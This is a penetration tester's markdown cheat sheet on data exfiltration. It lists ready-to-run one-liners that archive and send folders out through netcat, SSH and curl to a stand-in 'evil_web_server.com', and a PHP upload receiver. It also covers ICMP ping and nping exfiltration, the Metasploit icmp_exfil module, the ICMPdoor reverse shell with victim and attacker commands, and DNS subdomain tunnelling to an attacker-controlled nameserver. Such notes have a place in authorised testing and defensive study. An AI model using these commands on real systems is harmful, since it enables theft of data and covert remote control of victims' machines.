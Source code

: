 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# TCP
```bash
# encoding the contents of the file and sharing over tcp connection
# 1. create a gunzip archive of all the files
# 2. Convert it to base64
# 3. encode it with EBCDIC format and send the data
tar czf - folder/ | base64 | dd conv=ebcdic | nc 192.168.5.4 8888

# Recive the files
nc -nvlp 8888 | dd conv=ascii | base64 -d | tar xzf -
```
# SSH
```bash
# Method 1 - scp - secure copy
scp files/* user@mymachine

# Method 2 - if scp is not available
tar czf - files/ | ssh user@mymachine "mkdir /tmp/recieved ; tar xzf -"
```
# HTTP/HTTPS
- POST method
- Need a webserver capable of handling uploads
- Example: PHP
```php
<?php
if (isset($_POST['file'])) {
	$file = fopen("/tmp/file.b64","w");
	fwrite($file,$_POST['file']);
	fclose($file);
}
?>
```
- Data from victime machine can be exfiltered using curl:
```bash
curl --data="file=$(tar czf - files/ | base64)" http://evil_web_server.com
```
# ICMP
- `ICMP`: Internet Control Message Protocol.
- Ping command in linux can add 16 bytes of data to the ICMP packet using `-p` option, in hex representation.
- `xxd` can be used to convert string to hex:
```bash
# convert string to hex
echo "drdragon" | xxd -p
```
- Data can be exfiltrated using ping command (linux) or directly using nping command (from nmap)
```bash
ping <remote_host> -c 1 -p 6472647261676f6e
nping --icmp <remote_host> -c 1 --data-string "drdragon"
```
### Metasploit
- This can be achieved using `Metasploit's icmp_exfil module`
- This module listens for an BOF (Beginning of file) trigger, then writes the data to disk then waits for EOF (End of file).
- `BPF_FILTER` option of this modules takes a `tcpdump` rule.
```bash
set BPF_FILTER icmp and not src <my_ip>
```
- Data can be send using
```bash
sudo nping --icmp -c 1 <remote_host> --data-string "BOFadmin.txt"
sudo nping --icmp -c 1 <remote_host> --data-string "data:data"
sudo nping --icmp -c 1 <remote_host> --data-string "EOF"
```
### ICMPdoor
- Opensource reverse shell written in python3. Uses ICMP data section to send commands.
- On the Victim Machine
```bash
sudo icmpdoor -i <interface> -d <attacker_ip>
```
- On the Attacker machine
```bash
sudo icmp-cnc -i <interface> -d <victim_ip>
```
### DNS
- Setup a Domain name. eg: drdragon.com
- Add a NS which points to a malicious dns server, that we control.
- Encode the data and send the data via subdomain name.
```bash
aioh3ioh53oi5ho3i2.drdragon.com
```
NOTE: The whole URL must be 255 chars long and the subdomain must be less than 63 chars.
```bash
dig aioh3ioh53oi5ho3i2.drdragon.com +short
```
- One the nameserver that you control:
```bash
sudo tcpdump -i eth0 udp port 53 -v
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

